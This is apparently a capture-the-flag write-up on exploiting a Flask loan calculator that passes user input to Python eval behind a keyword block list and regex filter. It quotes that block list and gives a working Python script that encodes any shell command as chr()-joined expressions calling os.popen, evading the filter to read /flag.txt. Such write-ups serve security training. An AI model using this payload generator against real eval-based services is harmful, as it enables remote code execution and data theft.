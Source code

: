 Description:  
ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?  
Hints:  
Bypass regex  
The flag file is /flag.txt  
You might need encoding or dynamic construction to bypass restrictions.  

Easy to see the app can execute any Python code using Flask. `Ctrl + U` to view source code, i saw they using blacklist to void dangerous command:  
```
<!--
    TODO
    ------------
    Secure python_flask eval execution by 
        1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
        2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'
-->
```
Our job is writing a payload which does not matching that "keyword" and "regex"  
We will using `__import__('builtins').__import__( <payload> )` to run the command. My idea is using `join` to merge the ASCII number of a char i want to complete payload.  
Our OS command will be `cat /flag.txt` according to hint number 2.  
Here my code to encoding a payload:  
```
# This script encodes a shell command into a Python expression that can be executed using `os.popen` or `os.system`.
# Using it to bypass restrictions on direct command execution.
    
    # ------------
    # Secure python_flask eval execution by 
    #     1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind
    #     2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'


def encode_command(cmd, method='popen'):
    ascii_list = [ord(c) for c in cmd]
    chr_expr = ','.join([f'chr({c})' for c in ascii_list])
    cmd_expr = f"''.join([{chr_expr}])"
    
    os_expr = "''.join([chr(111),chr(115)])"
    import_expr = "__import__('builtins').__import__"

    if method == 'popen': # Using popen to execute the command and read output
        final = f"{import_expr}({os_expr}).popen({cmd_expr}).read()"
    elif method == 'system': # Using system to execute the command without capturing output
        final = f"{import_expr}({os_expr}).system({cmd_expr})"
    else:
        raise ValueError("method must be 'popen' or 'system'")

    return final


if __name__ == "__main__":
    user_cmd = input("Enter shell command: ")  # e.g. cat /flag.txt, ls -la, etc.
    payload = encode_command(user_cmd, method='popen')
    print("\nPayload:\n")
    print(payload)

```
Input your payload then put in into the "Bank" and you will get the flag.  
Peace! 


